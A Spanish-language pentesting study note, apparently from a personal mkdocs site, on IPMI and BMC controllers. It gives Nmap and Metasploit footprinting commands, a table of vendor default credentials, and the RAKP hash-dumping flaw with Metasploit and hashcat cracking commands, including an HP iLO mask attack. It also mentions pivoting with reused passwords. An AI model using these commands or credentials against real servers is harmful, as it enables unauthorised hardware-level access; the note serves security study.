

repository: scarlgyx/scarlgyx-cybersecurity · page: notes/protocolos/ipmi/index.html · generator: mkdocs

# IPMI

*Intelligent Platform Management Interface*

Conjunto de especificaciones para gestión y monitorización de hosts a nivel de **hardware**. Funciona de forma autónoma, independiente de la BIOS, CPU, firmware y SO. Permite al admin gestionar/monitorizar un sistema incluso **apagado o colgado**, vía red directa al hardware (no necesita login en el SO). Sirve para modificar la BIOS antes del arranque, acceder con el host apagado o tras un fallo, y monitorizar temperatura, voltaje, ventiladores, logs, etc.

Puerto **623 UDP** → IPMI (protocolo asf-rmcp)

## BMC

Los sistemas con IPMI se llaman **BMC** (Baseboard Management Controller): un microcontrolador embebido (normalmente ARM con Linux) conectado a la placa base. Suele exponer consola web, acceso remoto (SSH/Telnet) y el puerto 623 UDP.

Acceder a un BMC ≈ **acceso físico al sistema**: permite monitorizar, reiniciar, apagar o reinstalar el SO. BMCs comunes: **HP iLO**, **Dell iDRAC**, **Supermicro IPMI**.

## Footprinting

* Escaneo de versión con Nmap
```bash
sudo nmap -sU --script ipmi-version -p623 target
```

* Con Metasploit
```bash
msf6 > use auxiliary/scanner/ipmi/ipmi_version
set rhosts target
run
```

## Credenciales por defecto

| Producto | Usuario | Contraseña |
|----------|---------|------------|
| Dell iDRAC | `root` | `calvin` |
| HP iLO | `Administrator` | cadena aleatoria de 8 caracteres (mayúsculas + números) |
| Supermicro IPMI | `ADMIN` | `ADMIN` |

## Configuración peligrosa: fallo RAKP (IPMI 2.0)

Fallo en el protocolo **RAKP** de IPMI 2.0: durante la autenticación, el servidor envía un hash SHA1/MD5 con sal de la contraseña del usuario **antes** de autenticar. Esto permite obtener el hash de **cualquier cuenta válida** del BMC y crackearlo offline. No tiene arreglo directo (es parte de la especificación); mitigación: contraseñas muy largas o segmentación de red.

* Volcar hashes con Metasploit (crackea automáticamente las comunes)
```bash
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes
set rhosts target
run
```

* Crackear el hash offline con Hashcat (modo **7300**)
```bash
hashcat -m 7300 ipmi.txt /ruta/wordlist.txt
```

* Mask attack para contraseña de fábrica de HP iLO (8 caracteres, mayúsculas + dígitos)
```bash
hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u
```

Nota: un hash crackeado puede dar acceso a la consola web del BMC (hallazgo de alto riesgo) y, si la contraseña se reutiliza, pivotar por SSH a otros servidores críticos como root.
